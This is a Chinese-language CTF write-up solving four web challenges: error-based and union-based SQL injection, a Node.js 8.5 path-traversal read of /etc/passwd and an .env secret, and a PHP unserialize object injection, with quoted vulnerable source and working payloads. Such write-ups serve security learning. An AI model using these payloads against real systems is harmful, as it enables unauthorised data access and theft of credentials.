WEB easy_sql 首先先开代理利用burpsuite抓包分析，在username=admin'先加个单引号，发现如下报错
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'admin') LIMIT 0,1' at line 1

猜测sql语句大概是这种样子：select * from table where username=('admin') and password=('passwd') limit 0,1;
根据这个语句构造payload为uname=admin') and 1=1%23和uname=admin') and 1=2%23不难看出该出sql语句可被利用
接下来先利用sqlmap进行扫描，发现了flag表，猜测flag就在这张表里

但是sqlmap跑不出flag表的字段名称，于是开始了手动测试
因为该sql注入类型为没有回显，但是有报错，所以选择的报错注入，构造payload uname=admin') and extractvalue(1,concat(char(126),(select column_name from information_schema.columns where table_name='flag' and table_schema='security' limit 0,1)))%23&passwd=admin查询flag的第一个字段名，但是被拦截了

想了许久，最终直接构造为uname=admin') and extractvalue(1,concat(char(126),(select * from flag)))%23&passwd=admin，直接查询flag表的内容，然后mysql就会通过报错的形式把这条语句查询到的信息返回到浏览器上

最后通过right函数，将flag内容从右到左切割

最终拼接出flag为flag{c7651cb673c911ee8f9977094a220f17}
ezsqli 进入题目环境后，点击查看HINT，然后可以看到源代码，注释如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 <?php function sqlWaf ($s $filter = '/xml|extractvalue|regexp|copy|read|file|select|between|from|where|create|grand|dir|insert|link|substr|mid|server|drop|=|>|<|;|"|\^|\||\ |\'/i' ; if (preg_match ($filter ,$s )) return False; return True; } if (isset ($_POST ['username' ]) && isset ($_POST ['password' ])) { if (!isset ($_SESSION ['VerifyCode' ])) die ("?" ); $username = strval ($_POST ['username' ]); $password = strval ($_POST ['password' ]); if ( !sqlWaf ($password ) ) alertMes ('damn hacker' ,"./index.php" ); $sql = "SELECT * FROM users WHERE username='${username}' AND password= '${password}'" ; $result = $conn ->query ($sql ); if ($result ->num_rows > 0 ) { $row = $result ->fetch_assoc (); if ( $row ['username' ] === 'admin' && $row ['password' ] ) { if ($row ['password' ] == $password ) { $message = $FLAG ; } else { $message = "username or password wrong, are you admin?" ; } } else { $message = "wrong user" ; } } else { $message = "user not exist or wrong password" ; } } ?>
分析完代码后，总结出关键的几个必要条件：
从数据库查询的username必须为admin => 传进去的username必须为admin
从数据库查询出password满足条件(bool)(password) == True即必须存在且有大于0的值 => 因为数据库中admin值对应的password字段值未知，且根据源代码分析未找到相应绕过验证的方法，只能从sql语句入手。
使用本地环境调试，当我构造sql语句为select * from table_name where username='adminsada' union select 'admin','password';时，结果如下：

因为我前面的sql语句没有查询到内容，所以就会显示后面所查询的内容，而我后面的联合查询语句为union select 'admin','password';这条语句的意思是直接输出admin和password，从而就能控制数据库中输出的内容。但联合查询是有条件的，就是union select column_name1, column_name2....中，column_name的数必须和前面查询语句的字段数一致，所以这边需要先知道题目中的前一条sql语句查询的字段数为多少。
构造payloadusername=hhhh'+union+select+1,2,3--+&password=password&captcha=SDMG进行查询，查询结果为下图

可想而知，到达了wrong user这一步，不难猜测出我的sql语句执行成功，且为三个字段，目前猜测分别为id,username,password，且该语句查询完成后，username为1，password为2（因为前面没有查询到有用户为hhhh的，所以取到了后面的一条查询记录）
继续构造payload为username=hhh'+union+select+1,'admin','password'--+&password=password&captcha=SDMG

成功把flag查询出来flag{de3110dce011088cd4add1950a49182f}
（ps. 验证码是真的烦）
SecretGuess 下载题目所给的附件，目录结构如下

看到了构建镜像环境的文件Dockerfile，具体内容如下
1 2 3 4 5 6 7 FROM node:8.5 COPY ./src /usr/local/app WORKDIR /usr/local/app ENV FLAG=flag{**********}RUN npm i --registry=https://registry.npm.taobao.org EXPOSE 80 CMD node /usr/local/app/app.js
瞄一眼，暂时还没头绪，继续从题目中找线索
查看网页源代码，发现出题人的提示

然后又在源码中看到了隐藏源代码的链接（为什么说隐藏，因为这个div被背景色盖住了，设置z-index: 999就可以看到并且点击了）

（此步可忽略不计）

然后访问源代码链接可以看到如下代码
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 const express = require ('express' );const path = require ('path' );const env = require ('dotenv' ).config ();const bodyParser = require ('body-parser' );const crypto = require ('crypto' );const fs = require ('fs' )const hbs = require ('hbs' );const process = require ("child_process" )const app = express ();app.use ('/static' , express.static (path.join (__dirname, 'public' ))); app.use (bodyParser.urlencoded ({ extended : false })) app.use (bodyParser.json ()); app.set ('views' , path.join (__dirname, "views/" )) app.engine ('html' , hbs.__express ) app.set ('view engine' , 'html' ) app.get ('/' , (req, res ) => { res.render ("index" ) }) app.post ('/' , (req, res ) => { if (req.body .auth && typeof req.body .auth === 'string' && crypto.createHash ('md5' ).update (env.parsed .secret ).digest ('hex' ) === req.body .auth ) { res.render ("index" , {result : process.execSync ("echo $FLAG" )}) } else { res.render ("index" , {result : "wrong secret" }) } }) app.get ('/source' , (req, res ) => { res.end (fs.readFileSync (path.join (__dirname, "app.js" ))) }) app.listen (80 , "0.0.0.0" );
这里先看主要输出flag的核心代码
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 const env = require ('dotenv' ).config ();app.post ('/' , (req, res ) => { if (req.body .auth && typeof req.body .auth === 'string' && crypto.createHash ('md5' ).update (env.parsed .secret ).digest ('hex' ) === req.body .auth ) { res.render ("index" , {result : process.execSync ("echo $FLAG" )}) } else { res.render ("index" , {result : "wrong secret" }) } })
简单的分析代码已完成，现在就开始梳理接替思路：
目前我们所知道的信息就是部分源代码中的文件，且出题人也说了不是爆破，那肯定是要获取到node的配置文件。
刚开始我以为配置文件中关键的变量secret藏在.开头的文件，还特意一个一个去搜，搜不到，后面仔细回忆才想起来一个重要的镜像环境搭建文件Dockerfile，里面包含了node版本和项目的部署地址。
于是我就尝试去搜索node 8.5版本漏洞，结果还真有存在一个目录变量漏洞

而且正好这个题目的node版本为8.5.0，尝试复现漏洞，构造``app.js文件构造相应的payload/static/../../../a/../../../../etc/passwd`（需要把请求改为GET）进行漏洞验证

验证成功，然后根据之前的Dockerfile获取项目的绝对路径，构造payload/static/../../../a/../../../../usr/local/app/.env进行读取node配置文件中的secret变量

最后再将获取到的secret进行md5加密，最后提交获取到flag

warmup 下载题目源码，主要有有三个文件的源代码，首先先分析index.php（html代码已忽略）
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 <?php include 'conn.php' ;include 'flag.php' ;if (isset ($_COOKIE ['last_login_info' ])) { $last_login_info = unserialize (base64_decode ($_COOKIE ['last_login_info' ])); try { if (is_array ($last_login_info ) && $last_login_info ['ip' ] != $_SERVER ['REMOTE_ADDR' ]) { die ('WAF info: your ip status has been changed, you are dangrous.' ); } } catch (Exception $e ) { die ('Error' ); } } else { $cookie = base64_encode (serialize (array ( 'ip' => $_SERVER ['REMOTE_ADDR' ]))) ; setcookie ('last_login_info' , $cookie , time () + (86400 * 30 )); } if (isset ($_POST ['username' ]) && isset ($_POST ['password' ])){ $table = 'users' ; $username = addslashes ($_POST ['username' ]); $password = addslashes ($_POST ['password' ]); $sql = new SQL (); $sql ->connect (); $sql ->table = $table ; $sql ->username = $username ; $sql ->password = $password ; $sql ->check_login (); } ?>
然后再看ip.php文件
1 2 3 4 5 <?php echo $_SERVER ['REMOTE_ADDR' ]; ?>
最后是输出flag的核心文件conn.php
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 <?php include 'flag.php' ; class SQL public $table = '' ; public $username = '' ; public $password = '' ; public $conn ; public function __construct ( } public function connect ( $this ->conn = new mysqli ("localhost" , "xxxxx" , "xxxx" , "xxxx" ); } public function check_login ( $result = $this ->query (); if ($result === false ) { die ("database error, please check your input" ); } $row = $result ->fetch_assoc (); if ($row === NULL ){ die ("username or password incorrect!" ); }else if ($row ['username' ] === 'admin' ){ $flag = file_get_contents ('flag.php' ); echo "welcome, admin! this is your flag -> " .$flag ; }else { echo "welcome! but you are not admin" ; } $result ->free (); } public function query ( $this ->waf (); return $this ->conn->query ("select username,password from " .$this ->table." where username='" .$this ->username."' and password='" .$this ->password."'" ); } public function waf ( $blacklist = ["union" , "join" , "!" , "\"" , "#" , "$" , "%" , "&" , "." , "/" , ":" , ";" , "^" , "_" , "`" , "{" , "|" , "}" , "<" , ">" , "?" , "@" , "[" , "\\" , "]" , "*" , "+" , "-" ]; foreach ($blacklist as $value ) { if (strripos ($this ->table, $value )){ die ('bad hacker,go out!' ); } } foreach ($blacklist as $value ) { if (strripos ($this ->username, $value )){ die ('bad hacker,go out!' ); } } foreach ($blacklist as $value ) { if (strripos ($this ->password, $value )){ die ('bad hacker,go out!' ); } } } public function __wakeup ( if (!isset ($this ->conn)) { $this ->connect (); } if ($this ->table){ $this ->waf (); } $this ->check_login (); $this ->conn->close (); } } ?>
获取到的信息整理如下：
此处条件只要当反序列化后的对象不为数组即可绕过该行代码，比较顺水推舟（因为我们构造的反序列化结果是一个实例化类，这里自然而然的就绕过了）
1 2 3 4 5 6 7 8 9 10 11 if (isset ($_COOKIE ['last_login_info' ])) { $last_login_info = unserialize (base64_decode ($_COOKIE ['last_login_info' ])); try { if (is_array ($last_login_info ) && $last_login_info ['ip' ] != $_SERVER ['REMOTE_ADDR' ]) { die ('WAF info: your ip status has been changed, you are dangrous.' ); } } catch (Exception $e ) { die ('Error' ); } }
过滤黑名单中并没有过滤单引号
虽然在index.php中有对username和password进行字符转义，但是可以看到，转义前有一个反序列化操作，所以可以直接通过反序列化进行实例化一个类去执行类中的代码，从而进行绕过下面的字符转义操作。
令sql查询结果有值，并且username = admin即可，并没有对password的查询结果进行校验，所以构造类似的payload即可username=admin&password=1' or '1'='1，这样就能在查出username为admin的一条记录，从而获取flag
分析完成之后，开始上手操作，先利用burpsuite抓个包看看

将last_login_info先进行base64解密，得到如下序列化字符串a:1:{s:2:"ip";s:13:"39.170.14.162";}（大可不必管，我就是想看看）
直接构造序列化payload：O:3:"SQL":4:{s:5:"table";s:5:"users";s:8:"username";s:5:"admin";s:8:"password";s:10:"1'or'1'='1";s:4:"conn";N;}
即实例化SQL类并对该类下面的table、username、和password变量进行赋值，至于其中的conn可无需赋值，一时里面结构过于复杂，二是当进行反序列化操作前，会自动调用__wakeup()方法，该类下面 的方法会对conn进行赋值的。
1 2 3 4 5 6 7 8 9 10 public function __wakeup ( if (!isset ($this ->conn)) { $this ->connect (); } if ($this ->table){ $this ->waf (); } $this ->check_login (); $this ->conn->close (); }
最后查询出flag为flag{5dd2d5f45fw6e6f11ewf1f224f5121e2}
